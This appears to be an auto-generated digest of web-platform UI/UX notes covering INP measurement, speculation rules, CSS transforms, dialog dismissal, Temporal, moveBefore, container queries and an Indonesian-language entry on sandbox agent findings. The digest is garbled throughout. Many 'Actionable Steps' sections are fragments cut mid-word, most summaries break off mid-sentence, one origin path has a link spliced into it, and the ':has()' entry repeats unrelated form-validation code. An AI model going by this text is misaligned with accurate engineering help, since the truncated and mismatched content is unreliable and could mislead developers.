> **Origin**: `ui-ux/NEXUS_IDENTIFY-INP-CAUSES.MD` | **Distilled At**: 26/05/2026

#### 🧐 Core Insights (Distilled):
insights for JavaScript code delaying an interaction. A full performance trace using the JS Self-Profiling API is a heavyweight solution that is liable to cause performance problems. The Long Animation Frames API is a lightweight API that can be used to identify slow running JavaScript in the field for INP interactions.

#### 🛠 Actionable Steps:
actions leads to a poor impression of a page being slow or even completely broken. Interaction to Next Paint (INP) is a metric based on the Event Timing API. It measures the worst interaction (minus some outliers) as a measure of the page's responsiveness.

Identifying root causes of an unresponsive web page can be tricky especially as it depends on user interactions and environmental conditions such as device capabilities and network conditions. This makes it even more difficult to diagnose compared to a more repeatable and predictable scenario like page load. Lab data only replicates a small subset of real user scenarios so measuring the causes of slow INP in the field is essential.

The Event Timing API allows for splitting the INP duration into three subparts: Input Delay (processi

#### 🔗 Traceability:
- [Source Context](NEXUS_IDENTIFY-INP-CAUSES.MD)
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---
### 📄 Improve next page load performance
> **Origin**: `ui-ux/NEXUS_IMPROVE-NEXT-PAGE-LOAD-[PERFORMANCE.MD](../ui-ux/NEXUS_PERFORMANCE.MD)` | **Distilled At**: 26/05/2026

#### 💡 Content Summary:
> **VERSION**: v1 | **Last Updated**: 26/05/2026


One of the most effective ways to improve page load performance for users navigating a site is to initiate loading the next page they're about to visit *before* they visit it. This can be done through a technique called speculative loading using the Speculation Rules API.


Speculative loading works by using JSON-based speculation rules to tell the browser about links that can be prefetched or prerendered improving page load performance when user clicks on them.

The rules can either be a hardcoded list of URLs a `urls` key (known as a list rule), or with a `where` key containing a set of href and CSS selectors used to find links on the page (known as a `document` rule).

Rules can also include an optional `eagerness` property that specifies when the page should be prefetched or prerendered. The `eagerness` property can be set to `immediate`, `eager`, `moderate`, or `conservative`. `immediate` speculates as soon as possible, while the others wait for user signals such as hovering for a short period, for a longer period, or starting to click on the page respectively.

Rules can be combined with different eagerness setti...

#### 🔗 Traceability:
- [Source Context](NEXUS_IMPROVE-NEXT-PAGE-LOAD-[PERFORMANCE.MD](../ui-ux/NEXUS_PERFORMANCE.MD))
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---
### 📄 Improve Text Layout and Legibility
> **Origin**: `ui-ux/NEXUS_IMPROVE-TEXT-LAYOUT-AND-LEGIBILITY.MD` | **Distilled At**: 26/05/2026

#### 🛠 Actionable Steps:
action with Width:** `text-wrap: balance` does not change the container's width (`inline-size`). It only affects how text wraps *within* that width. This can leave empty space at the end of the container, which may affect layouts relying on full-width text blocks.

#### 🔗 Traceability:
- [Source Context](NEXUS_IMPROVE-TEXT-LAYOUT-AND-LEGIBILITY.MD)
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---
### 📄 Key Implementation Details
> **Origin**: `ui-ux/NEXUS_INDIVIDUAL-TRANSFORM-PROPERTIES.MD` | **Distilled At**: 26/05/2026

#### 💡 Content Summary:
> **VERSION**: v1 | **Last Updated**: 26/05/2026

The `transform` property allows you to apply multiple transformations in a specified order, but any changes to a single transformation require re-specifying the entire transformation chain. This makes it tricky to animate or transition a single transformation.

The individual CSS transform properties (`translate`, `rotate`, and `scale`) allow you to apply transformations independently of the `transform` property. This approach makes it simpler to override a single transformation, for instance on `:hover`.


Individual transform properties are always applied in a **fixed order**, regardless of their order in your CSS:
1. `translate`
2. `rotate`
3. `scale`
4. `transform` (applied last)

If you require a different order (e.g., scaling *before* rotating), you must continue using the `transform` property functions.

Transform functions do not override the individual transform properties. In other words, `scale: 2; transform: scale(3);` will first scale by 2x, then again by 3x, for a total of 6x.


The `transform` property and individual transform properties impact the layout and rendering of the page and may cause une...

#### 🔗 Traceability:
- [Source Context](NEXUS_INDIVIDUAL-TRANSFORM-PROPERTIES.MD)
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---
### 📄 Optimizing Interactions in Complex Layouts
> **Origin**: `ui-ux/NEXUS_INTERACTIONS-IN-COMPLEX-LAYOUTS.MD` | **Distilled At**: 26/05/2026

#### 🛠 Actionable Steps:
actions in Complex Layouts
> **VERSION**: v1 | **Last Updated**: 26/05/2026


Maintain high frame rates (60FPS) and eliminate interaction latency during drag-and-drop or heavy mutations in complex, multi-column layouts like Kanban boards or massive data grids.

#### 🔗 Traceability:
- [Source Context](NEXUS_INTERACTIONS-IN-COMPLEX-LAYOUTS.MD)
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---
### 📄 Enable interactive HTML content in 3D scenes
> **Origin**: `ui-ux/NEXUS_INTERACTIVE-CONTENT-IN-3D-SCENES.MD` | **Distilled At**: 26/05/2026

#### 🛠 Actionable Steps:
Action</button>
  </div>
</canvas>

<script>
  const canvas = document.getElementById("canvas");
  const gl = canvas.getContext("webgl");
  const uiElement = document.getElementById("ui-element");

  // Setup WebGL texture...
  const texture = gl.createTexture();
  gl.bindTexture(gl.TEXTURE_2D, texture);

  canvas.onpaint = () => {
    // 1. Update texture with HTML content
    if (gl.texElementImage2D) {
      gl.texElementImage2D(
        gl.TEXTURE_2D,
        0,
        gl.RGBA,
        gl.RGBA,
        gl.UNSIGNED_BYTE,
        uiElement,
      );
    }

    // ... Render your 3D scene here, calculating htmlElementMVP matrix ...

    // 2. Sync DOM position with 3D scene
    if (canvas.getElementTransform) {
      const mvpDOM = new DOMMatrix(Array.from(h

#### 🔗 Traceability:
- [Source Context](NEXUS_INTERACTIVE-CONTENT-IN-3D-SCENES.MD)
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---
### 📄 Implementation
> **Origin**: `ui-ux/NEXUS_INTERACTIVE-CONTENT-REVEAL.MD` | **Distilled At**: 26/05/2026

#### 🛠 Actionable Steps:
action */
.reveal-layer:hover {
  --inner-size: 100px;
  --outer-size: 120px;
}  
```

#### 🔗 Traceability:
- [Source Context](NEXUS_INTERACTIVE-CONTENT-REVEAL.MD)
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---
### 📄 Show a tooltip when hovering
> **Origin**: `ui-ux/NEXUS_INTEREST-TRIGGERED-TOOLTIPS.MD` | **Distilled At**: 26/05/2026

#### 🛠 Actionable Steps:
action an icon-only button will take, or provide additional form field guidance.

#### 🔗 Traceability:
- [Source Context](NEXUS_INTEREST-TRIGGERED-TOOLTIPS.MD)
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---
### 📄 Key Use Cases
> **Origin**: `ui-ux/NEXUS_LANGUAGE-DETECTION.MD` | **Distilled At**: 26/05/2026

#### 💡 Content Summary:
> **VERSION**: v1 | **Last Updated**: 26/05/2026

The **Language Detector API** is a client-side web API designed to identify the language of a given text string. By performing detection locally in the browser, it enhances user privacy and reduces the need for heavy external libraries or costly server-side calls.


- **Translation Prep:** Identifying the source language before sending text to a translator.
- **Safety & Filtering:** Loading specific models for tasks like toxicity detection.
- **Accessibility:** Labeling content with the correct `lang` attribute for screen readers.
- **UI Localization:** Adjusting application interfaces based on the user's input language.


- **OS:** Windows 10/11, macOS 13+, Linux, or Chromebook Plus.
- **Storage:** 22 GB free space (model is removed if space drops below 10 GB).
- **RAM/CPU:** 16 GB RAM and 4+ CPU cores.
- **VRAM:** 4 GB+ if using a GPU.


Check model availability before attempting to instantiate the detector or trigger download.

**MANDATORY:** Instantiating the language detector or triggering a model download with `LanguageDetector.create()` **MUST** be initiated by a user gesture (such as a button click...

#### 🔗 Traceability:
- [Source Context](NEXUS_LANGUAGE-DETECTION.MD)
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---
### 📄 Implementation
> **Origin**: `ui-ux/NEXUS_LIGHT-DISMISS-A-DIALOG.MD` | **Distilled At**: 26/05/2026

#### 💡 Content Summary:
> **VERSION**: v1 | **Last Updated**: 26/05/2026

Modern modal dialogs often support "light-dismiss," allowing users to close a dialog by clicking or tapping the backdrop (the area outside the dialog). The `closedby` attribute provides a declarative way to enable this behavior without custom JavaScript.


To enable light-dismiss:

1. Add `closedby="any"` to the `<dialog>` element.
2. Open the dialog using `dialog.showModal()`.


- `any`: Enables light-dismiss (clicking the backdrop), "close requests" (the `Esc` key), and developer mechanisms (e.g., `dialog.close()`).
- `closerequest`: Enables "close requests" and developer mechanisms only. This is the default for modal dialogs.
- `none`: Only developer mechanisms can close the dialog.


When a dialog is opened as a modal using `showModal()`, the browser generates a `::backdrop` pseudo-element. This backdrop covers the entire viewport and sits directly behind the dialog.

```css
/* Style the backdrop to indicate the dialog is modal */
dialog::backdrop {
  background-color: rgba(0, 0, 0, 0.5);
  backdrop-filter: blur(2px); /* Optional: add blur for modern browsers */
}
```


```html
<!-- MANDATORY: Use...

#### 🔗 Traceability:
- [Source Context](NEXUS_LIGHT-DISMISS-A-DIALOG.MD)
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---
### 📄 Modeling Partial Time Concepts with Temporal
> **Origin**: `ui-ux/NEXUS_MODEL-PARTIAL-TIME-CONCEPTS.MD` | **Distilled At**: 26/05/2026

#### 💡 Content Summary:
> **VERSION**: v1 | **Last Updated**: 26/05/2026


Modeling date concepts that lack a full calendar date—such as credit card expirations, annual renewals, or daily alarms—has historically been error-prone with the legacy `Date` object. Developers often resort to using arbitrary days (like the 1st of the month) or parsing strings, leading to "day leakage" or incorrect calculations due to leap years and varying month lengths.

The `Temporal` API provides dedicated types for these partial concepts: `Temporal.PlainYearMonth`, `Temporal.PlainMonthDay`, and `Temporal.PlainTime`. These types ensure precision and avoid leaking irrelevant date components.


Use `Temporal.PlainYearMonth` to represent a year and a month.

```javascript
// Create a PlainYearMonth from values
// Use explicit calendar to avoid mismatch issues in polyfill environments
const expiry = Temporal.PlainYearMonth.from({ year: 2027, month: 12, calendar: 'iso8601' });

// Get the current year/month
const currentMonth = Temporal.Now.plainDateISO().toPlainYearMonth();

// Calculate duration until expiry
// largestUnit ensures the difference is expressed in years if applicable
const duration = currentM...

#### 🔗 Traceability:
- [Source Context](NEXUS_MODEL-PARTIAL-TIME-CONCEPTS.MD)
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---
### 📄 Moving an element with state
> **Origin**: `ui-ux/NEXUS_MOVE-DOM-ELEMENT-WITHOUT-LOSING-STATE.MD` | **Distilled At**: 26/05/2026

#### 💡 Content Summary:
> **VERSION**: v1 | **Last Updated**: 26/05/2026

When reparenting DOM elements using traditional methods like `appendChild()` or `insertBefore()`, the browser implicitly removes the element from the DOM and then inserts it into its new location. This "remove and insert" operation resets many internal states, causing `<iframe>` elements to reload, CSS animations to restart, and input fields to lose focus.

To move an element while preserving its state, use the `moveBefore()` API. This method performs an atomic move, completely bypassing the removal and insertion steps.


Use `moveBefore()` exactly as you would use `insertBefore()`. It requires two arguments: the node to move, and a reference node to insert before (or `null` to append to the end of the new parent).

```javascript
const newParent = document.getElementById('new-parent');
const elementWithState = document.getElementById('iframe-or-focused-input');

// MANDATORY: Use moveBefore to preserve state. 
// Passing null as the second argument appends the element to the end of newParent.
newParent.moveBefore(elementWithState, null);
```


If you are moving custom elements using `moveBefore()`, their `connec...

#### 🔗 Traceability:
- [Source Context](NEXUS_MOVE-DOM-ELEMENT-WITHOUT-LOSING-STATE.MD)
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---
### 📄 Omnibox Integration
> **Origin**: `ui-ux/NEXUS_OMNIBOX.MD` | **Distilled At**: 26/05/2026

#### 🛠 Actionable Steps:
action=opensearch&search=${encodeURIComponent(text)}&limit=5&format=json`
    );
    const [, titles, , urls] = await response.json();

    const suggestions = titles.map((title, i) => ({
      content: urls[i],
      description: `${title} - <url>${urls[i]}</url>`
    }));

    suggest(suggestions);
  } catch (err) {
    console.error('Search failed:', err);
  }
});
```

#### 🔗 Traceability:
- [Source Context](NEXUS_OMNIBOX.MD)
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---
### 📄 Overflow Clipping Control
> **Origin**: `ui-ux/NEXUS_OVERFLOW-CLIPPING-CONTROL.MD` | **Distilled At**: 26/05/2026

#### 🛠 Actionable Steps:
action logic.
- **DO** configure `overflow-clip-margin` with a specified length offset when applying external visual effects (like `filter: drop-shadow()`) to prevent sharp bounding box truncation without altering or expanding layout geometry.
- **DO NOT** apply `overflow: clip` if the container requires programmatic scroll manipulation via JavaScript or serves as the immediate layout context for `position: sticky` elements, as `clip` completely disables scrolling.

#### 🔗 Traceability:
- [Source Context](NEXUS_OVERFLOW-CLIPPING-CONTROL.MD)
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---
### 📄 Critical Rendering Path (CRP) Optimization
> **Origin**: `ui-ux/NEXUS_PERFORMANCE.MD` | **Distilled At**: 26/05/2026

#### 🛠 Actionable Steps:
action to Next Paint (INP) & Main Thread Unblocking

INP measures the latency of all interactive events across the page's lifecycle. Poor INP is caused by long-running JavaScript tasks blocking the main thread.

#### 🔗 Traceability:
- [Source Context](NEXUS_PERFORMANCE.MD)
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---
### 📄 Implementation Steps
> **Origin**: `ui-ux/NEXUS_PHYSICS-BASED-EASING.MD` | **Distilled At**: 26/05/2026

#### 💡 Content Summary:
> **VERSION**: v1 | **Last Updated**: 26/05/2026

Traditional CSS easing functions like `ease-in` or `cubic-bezier()` are limited to simple curves, making it impossible to create complex physics-based effects like bounces or springs. The `linear()` timing function solves this by allowing you to provide a series of stops that can approximate complex curves. Transitions and animations are interpolated based on straight lines between the stops, but within enough stops, it can appear smooth.


1.  **Generate the curve stops:**
    Manually plotting dozens of points for a spring or bounce is impractical. Use a timing function from an external library, or use a  tool to convert an existing JavaScript easing function or an SVG path into the `linear()` syntax. Optional: store these timing functions as CSS custom properties for reuse throughout your site.
2.  **Define the timing function:**
    Apply the generated stops to the `transition-timing-function` or `animation-timing-function` property, or through the `transition` or `animation` shorthands.
3.  **Adjust the duration:**
    Unlike JavaScript physics engines where duration is derived from physical properties (mass, stiffnes...

#### 🔗 Traceability:
- [Source Context](NEXUS_PHYSICS-BASED-EASING.MD)
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---
### 📄 Fallback strategies
> **Origin**: `ui-ux/NEXUS_PLATFORM-CONTROLS-DISMISS-DIALOG.MD` | **Distilled At**: 26/05/2026

#### 💡 Content Summary:
> **VERSION**: v1 | **Last Updated**: 26/05/2026

When a modal dialog is open, users expect to use familiar controls to dismiss them: pressing the <kbd>Esc</kbd> key on a keyboard, using the back button or gesture on mobile platforms, or a dismiss gesture with assistive technologies.

When the `<dialog>` element was first introduced, it could be dismissed with the <kbd>Esc</kbd> key, but not other platform controls such as a back button/gesture on mobile. With the addition of the `closedby` attribute for `<dialog>` elements, the extended behavior of responding to more platform-specific controls for close requests has been applied for `<dialog>` elements that are opened in a modal state (i.e. when opened imperatively with the `<dialog>` element’s `showModal()` method in JavaScript or declaratively with the `show-modal` invoker command). So, there is no specific change developers need to make if they are already using the `<dialog>` element.

```html
<!-- MANDATORY: must be opened with either `showModal()` with JavaScript or the `show-modal` command using declarative command invokers in order respond to close requests including platform-specific controls. -->
<dialog aria-label...

#### 🔗 Traceability:
- [Source Context](NEXUS_PLATFORM-CONTROLS-DISMISS-DIALOG.MD)
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---
### 📄 Precise Text Alignment
> **Origin**: `ui-ux/NEXUS_PRECISE-TEXT-ALIGNMENT.MD` | **Distilled At**: 26/05/2026

#### 💡 Content Summary:
> **VERSION**: v1 | **Last Updated**: 26/05/2026


Browsers automatically add extra whitespace above and below text characters to accommodate line-height and font-specific metrics like ascenders and descenders. This "ghost space" makes it impossible to achieve pixel-perfect vertical alignment using standard CSS.

Common issues include:
- **Misaligned Icons**: Text appears visually lower or higher than an adjacent icon even when using `align-items: center`.
- **Inaccurate Padding**: A button with `padding: 12px` visually appears to have more space on top or bottom because of the font's internal leading.
- **Flush Alignment**: You cannot align the top of a capital letter exactly with the top of a container or an adjacent image without using "magic number" negative margins.


The `text-box-trim` and `text-box-edge` properties (shorthand `text-box`) allow you to trim this internal leading based on specific font metrics. By trimming the text box to the **cap-height** (top of capital letters) and the **alphabetic baseline** (bottom of most letters), you can ensure that the element's bounding box matches its visual content.


1. **MANDATORY**: Apply `text-box-trim: tr...

#### 🔗 Traceability:
- [Source Context](NEXUS_PRECISE-TEXT-ALIGNMENT.MD)
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---
### 📄 Prevent text wrapping
> **Origin**: `ui-ux/NEXUS_PREVENT-TEXT-WRAPPING.MD` | **Distilled At**: 26/05/2026

#### 💡 Content Summary:
> **VERSION**: v1 | **Last Updated**: 26/05/2026


Modern CSS provides the `text-wrap` property to control how text breaks within its container. To ensure text stays on a single line and ignores container boundaries, use `text-wrap: nowrap`. This is the modern, more semantic replacement for `white-space: nowrap`.

Preventing text wrapping is useful for UI elements like navigation tabs, horizontal scrolling chips, or any scenario where a line break would break the layout or visual design.


To prevent any automatic line breaks, apply `text-wrap: nowrap` to the element containing the text.

1. **MANDATORY**: Apply `text-wrap: nowrap` to the target element.
2. **OPTIONAL**: Use an `overflow` property (such as `hidden`, `scroll`, or `auto`) to manage the resulting overflow.
3. **OPTIONAL**: Use `text-overflow: ellipsis` to provide a visual cue when text is truncated. Note: This requires `overflow: hidden`.


```css
.no-wrap-text {
  /* MANDATORY: Prevents automatic line breaks */
  text-wrap: nowrap;

  /* OPTIONAL: Handles the overflow visually */
  overflow: hidden;
  text-overflow: ellipsis;

  /* OPTIONAL: Constrain width to force and handle overflow ...

#### 🔗 Traceability:
- [Source Context](NEXUS_PREVENT-TEXT-WRAPPING.MD)
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---
### 📄 Pull to Reveal
> **Origin**: `ui-ux/NEXUS_PULL-TO-REVEAL.MD` | **Distilled At**: 26/05/2026

#### 💡 Content Summary:
> **VERSION**: v1 | **Last Updated**: 26/05/2026


"Pull to reveal" is a UI pattern where content (such as a search bar or refresh control) is hidden above the top of a scrollable area on initial load, and the user can pull down (scroll up) to reveal it. This pattern is commonly used in mobile apps and web apps for search bars, filters, and other secondary controls that should be accessible but not immediately visible.

The CSS property `scroll-initial-target` offers a declarative, CSS-only way to implement this pattern. By setting `scroll-initial-target: nearest` on the main content element, the scroll container will render with the hidden content scrolled out of view. Previously, developers relied on JavaScript (`Element.scrollIntoView()`) or URL fragment identifiers (`#content-id`) to achieve this, both of which have limitations and are tricky to implement.


To implement a pull-to-reveal pattern:

1. **Ensure a scroll container:** The target element must be inside a scroll container (an element with overflow that allows scrolling, such as `overflow: auto`). This can be any ancestor element, including the root `<html>` element.
2. **Define the hidden element:** Place...

#### 🔗 Traceability:
- [Source Context](NEXUS_PULL-TO-REVEAL.MD)
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---
### 📄 Reduce Style Repetition with CSS Functions
> **Origin**: `ui-ux/NEXUS_REDUCE-STYLE-REPETITION.MD` | **Distilled At**: 26/05/2026

#### 💡 Content Summary:
> **VERSION**: v1 | **Last Updated**: 26/05/2026


Maintaining large stylesheets often leads to repetitive logic, especially when dealing with design system tokens like gradients or responsive layout patterns.

The CSS `@function` at-rule allows you to encapsulate this logic into reusable, parameterized functions, making your CSS more maintainable, consistent and DRY (Don't Repeat Yourself).


A custom function is defined using the `@function` rule followed by a dashed name and a list of parameters. The function returns a value using the `result` property. 

```css
@function --my-function(--input1 <length>, --input2: default-value) returns <length> {
  /* Logic goes here */
  result: var(--input1);
}
```


- **Parameters:** Must start with a double dash (`--`).
- **Defaults:** You can provide default values using a colon (`:`).
- **Result:** The `result` property determines the value the function returns. The last `result` declared in the function body wins.
- **Scoping:** Parameters and variables defined inside the function are locally scoped.
- **Types:** You can require parameters and the returned value to match a CSS type with bracket notation (e.g., `<co...

#### 🔗 Traceability:
- [Source Context](NEXUS_REDUCE-STYLE-REPETITION.MD)
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---
### 📄 Required Field Feedback
> **Origin**: `ui-ux/NEXUS_REQUIRED-FIELD-FEEDBACK.MD` | **Distilled At**: 26/05/2026

#### 🛠 Actionable Steps:
action state using a `WeakMap`. This avoids polluting the DOM with "dirty" classes or data attributes.

```javascript
const UserInvalidFallback = (() => {
  const dirtyState = new WeakMap();

  const updateState = (input) => {
    const isValid = input.checkValidity();

    // Update both visual and ARIA state
    input.classList.toggle('user-invalid-fallback', !isValid);
    input.classList.toggle('user-valid-fallback', isValid);

    if (!isValid) {
      input.setAttribute('aria-invalid', 'true');
    } else {
      input.removeAttribute('aria-invalid');
    }
  };

  const handleEvent = (event) => {
    const input = event.target;

    if (event.type === 'reset') {
      const controls = input.elements || [];
      for (const control of controls) {
        dir

#### 🔗 Traceability:
- [Source Context](NEXUS_REQUIRED-FIELD-FEEDBACK.MD)
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---
### 📄 Rich Media Picker (Customizable Select)
> **Origin**: `ui-ux/NEXUS_RICH-MEDIA-PICKER.MD` | **Distilled At**: 26/05/2026

#### 💡 Content Summary:
> **VERSION**: v1 | **Last Updated**: 26/05/2026


The native `<select>` element was historically difficult to style and could only contain plain text options. The `appearance: base-select` property offers a declarative, CSS-only way to opt into a customizable state for the `<select>` element. This allows developers to include rich HTML content—such as images, SVGs, and complex layouts—inside `<option>` elements, while retaining native keyboard accessibility and form integration. Use this pattern to replace heavy, custom-built select components with standard, native elements.


To implement a rich media picker using the Customizable Select API:

1. **Opt-in to base styles**: Apply `appearance: base-select` to both the `<select>` element and its internal picker using the `::picker(select)` pseudo-element. This changes the browser's HTML parser for the contents inside the `<select>`.
2. **Define the Button Content**: Use standard `<button>` and `<selectedcontent>` elements inside the `<select>` to define what is shown when the picker is closed. The `<selectedcontent>` element automatically mirrors the content of the selected option. This is required if you want to display t...

#### 🔗 Traceability:
- [Source Context](NEXUS_RICH-MEDIA-PICKER.MD)
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---
### 📄 Sandbox UI/UX Distilled Findings
> **Origin**: `ui-ux/NEXUS_SANDBOX_UI_FINDINGS.md` | **Distilled At**: 26/05/2026

#### 💡 Content Summary:
> **VERSION**: v1 | **Last Updated**: 25/05/2026


**Date**: 2026-05-23
**Context**: NEXUS Sandbox Section 1 generated 11 TALL Stack web applications, all of which failed the UX/UI quality check. The resulting applications were merely default Laravel boilerplate pages with haphazardly injected Livewire components.


1. **Broken Boilerplate**: Agen tidak menghapus halaman dokumentasi bawaan Laravel (`welcome.blade.php` dengan link ke Laracasts/Laravel News). Hal ini membuat aplikasi terlihat seperti *scaffold* awal, bukan produk akhir (MVP).
2. **Missing Application Shell**: Tidak ada satupun aplikasi yang menggunakan struktur `layouts/app.blade.php`. Akibatnya, aplikasi tidak memiliki *navbar*, *footer*, navigasi, atau kerangka UI (Shell) yang layak.
3. **Mangled HTML Injection**: Karena struktur HTML yang kacau, injeksi tag `<livewire:...>` malah merusak *tag* `<body>` dan `<div>`.


Untuk generasi kode selanjutnya (terutama agen `ux-engineer` dan `pipeline-architect`), **patuhi aturan ketat berikut**:

1. **Wajib Hapus Boilerplate**: Setiap kali membuat aplikasi baru, halaman bawaan `welcome.blade.php` **HARUS DIHAPUS TOTAL** isinya dan diganti dengan desain halaman depan/Dashbo...

#### 🔗 Traceability:
- [Source Context](NEXUS_SANDBOX_UI_FINDINGS.md)
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---
### 📄 Scheduling tasks by priority
> **Origin**: `ui-ux/NEXUS_SCHEDULE-TASKS-BY-PRIORITY.MD` | **Distilled At**: 26/05/2026

#### 🛠 Actionable Steps:
action (e.g., input handling, critical rendering).
- `user-visible`: Tasks visible to the user but not blocking (default).
- `background`: Tasks that are not time-critical (e.g., analytics, prefetching).

```javascript
// Schedule a high-priority task that blocks user interaction
scheduler.postTask(() => {
  // DO: Handle critical updates that impact user interaction
  handleCriticalUpdate();
}, { priority: 'user-blocking' });

// Schedule a default priority task
scheduler.postTask(() => {
  // DO: Render non-critical content that is visible to the user
  renderSecondaryContent();
}); // Defaults to 'user-visible'

// Schedule a low-priority background task
scheduler.postTask(() => {
  // DO: Perform heavy background work that is not time-critical
  sendAnalytics();
},

#### 🔗 Traceability:
- [Source Context](NEXUS_SCHEDULE-TASKS-BY-PRIORITY.MD)
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---
### 📄 Set a scroll target for the initial render
> **Origin**: `ui-ux/NEXUS_SCROLL-TARGET-ON-LOAD.MD` | **Distilled At**: 26/05/2026

#### 💡 Content Summary:
> **VERSION**: v1 | **Last Updated**: 26/05/2026


The CSS property `scroll-initial-target` offers a declarative, CSS-only way to bring a specific descendant element into the visible area of its scroll container as soon as that container is rendered. Previously, developers relied on JavaScript (`Element.scrollIntoView()`) or URL fragment identifiers (`#item-id`), both of which have limitations and are tricky to implement.


To implement this successfully:

1. **Ensure a scroll container:** The target element must be inside a scroll container (an element with overflow that allows scrolling, such as `overflow: auto`). This can be any ancestor element, including the root `<html>` element.
2. **Target the Item:** Apply `scroll-initial-target: nearest` to the specific descendant element you want to bring into view.


In this example, a feed starts scrolled to a specific "featured" item rather than the very top of the list.

```css
/** 
 * TARGET: The item that should be visible on initial load.
 */
.item.target {
  scroll-initial-target: nearest;
}
```


- **DO** use `scroll-initial-target` for "middle-start" experiences, such as a calendar starting on the c...

#### 🔗 Traceability:
- [Source Context](NEXUS_SCROLL-TARGET-ON-LOAD.MD)
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---
### 📄 Select Menu Interaction
> **Origin**: `ui-ux/NEXUS_SELECT-MENU-INTERACTION.MD` | **Distilled At**: 26/05/2026

#### 🛠 Actionable Steps:
action
> **VERSION**: v1 | **Last Updated**: 26/05/2026

#### 🔗 Traceability:
- [Source Context](NEXUS_SELECT-MENU-INTERACTION.MD)
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---
### 📄 Overview
> **Origin**: `ui-ux/NEXUS_SHAPED-CUTOUTS.MD` | **Distilled At**: 26/05/2026

#### 💡 Content Summary:
> **VERSION**: v1 | **Last Updated**: 26/05/2026


CSS Masking allows you to clip an element to a custom shape, such as adding a notch to a card or creating a shaped border. When combining shapes for complex layouts, choose your masking strategy based on the type of content the element contains:

| Masking strategy                | Best For                        | Text Impact                    |
| ------------------------------- | ------------------------------- | ------------------------------ |
| Direct Element SVG Masking      | Images, Icons, Decorative shapes, Complex shapes | Not recommended (can crop text) |
| Adjacent Element SVG Masking    | Cards with Text, Crucial content | Text remains fully readable    |
| Pure CSS Gradients              | Simple Geometric Shapes           | Not recommended (can crop text) |

---


To implement shaped cutouts:


SVG masks allow you to define shapes that subtract from or add to the visible area using white (reveal) and black (hide) fills.

> **Luminance vs. Alpha Masking**: SVG masks default to **luminance** (brightness) mode, which is why we use `fill="white"` to reveal areas and `fill="black"` to cut them out. If yo...

#### 🔗 Traceability:
- [Source Context](NEXUS_SHAPED-CUTOUTS.MD)
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---
### 📄 Overview
> **Origin**: `ui-ux/NEXUS_SIZE-AWARE-STYLING.MD` | **Distilled At**: 26/05/2026

#### 💡 Content Summary:
> **VERSION**: v1 | **Last Updated**: 26/05/2026


Size-aware styling allows components to change their layout or appearance based on the space available to them, rather than the size of the whole screen. This is useful for components like cards or navigation bars that might be placed in different parts of a layout (like a narrow sidebar or a wide main area).

Using container queries is recommended because it makes components truly modular. You do not need to know where the component will live or write complex media queries to handle every possible layout.


MANDATORY: You must first tell the browser which element is the container to be measured.

```css
.card-container {
  /* Define the container type. Use 'inline-size' for width-based queries. */
  /* You can also use 'size' for both width and height, but it requires explicit sizing. */
  container-type: inline-size;
}
```


Use the `@container` rule to apply styles when the container reaches a certain size.

```css
/* Default styles for small containers (stacked layout) */
.card {
  display: flex;
  flex-direction: column;
  gap: 1rem;
}

/* Styles for larger containers (side-by-side layout) ...

#### 🔗 Traceability:
- [Source Context](NEXUS_SIZE-AWARE-STYLING.MD)
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---
### 📄 Stabilize Reactive State with Temporal
> **Origin**: `ui-ux/NEXUS_STABILIZE-REACTIVE-STATE.MD` | **Distilled At**: 26/05/2026

#### 💡 Content Summary:
> **VERSION**: v1 | **Last Updated**: 26/05/2026


While some reactive systems (like [React](https://react.dev/)) rely strictly on reference equality to detect state changes, others (like [Vue](https://vuejs.org/) and [Svelte](https://svelte.dev/)) can track mutations to plain objects. However, for built-in objects like the legacy `Date` object, internal mutations (like `setHours()`) do not change the object's reference and are generally not tracked by any framework's default reactivity system. This leads to missed UI updates and hard-to-debug side effects.

The `Temporal` API solves this by providing immutable objects. Any operation that modifies a value (such as adding time or setting a field) returns a new instance with a new memory reference. This guarantees that state updates are always detected by reactive systems, ensuring UI stability.


To stabilize reactive state using Temporal:

1. **Use Temporal types for state:** Store `Temporal` objects (like `Temporal.PlainDateTime` or `Temporal.PlainDate`) in your reactive state instead of legacy `Date` objects.
2. **Perform immutable updates:** When updating the state, use Temporal methods like `.add()`, `.subtract()`, ...

#### 🔗 Traceability:
- [Source Context](NEXUS_STABILIZE-REACTIVE-STATE.MD)
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---
### 📄 Style Parent with :has()
> **Origin**: `ui-ux/NEXUS_STYLE-PARENT-WITH-HAS.MD` | **Distilled At**: 26/05/2026

#### 🛠 Actionable Steps:
action state using a `WeakMap`. This avoids polluting the DOM with "dirty" classes or data attributes.

```javascript
const UserInvalidFallback = (() => {
  const dirtyState = new WeakMap();

  const updateState = (input) => {
    const isValid = input.checkValidity();

    // Update both visual and ARIA state
    input.classList.toggle('user-invalid-fallback', !isValid);
    input.classList.toggle('user-valid-fallback', isValid);

    if (!isValid) {
      input.setAttribute('aria-invalid', 'true');
    } else {
      input.removeAttribute('aria-invalid');
    }
  };

  const handleEvent = (event) => {
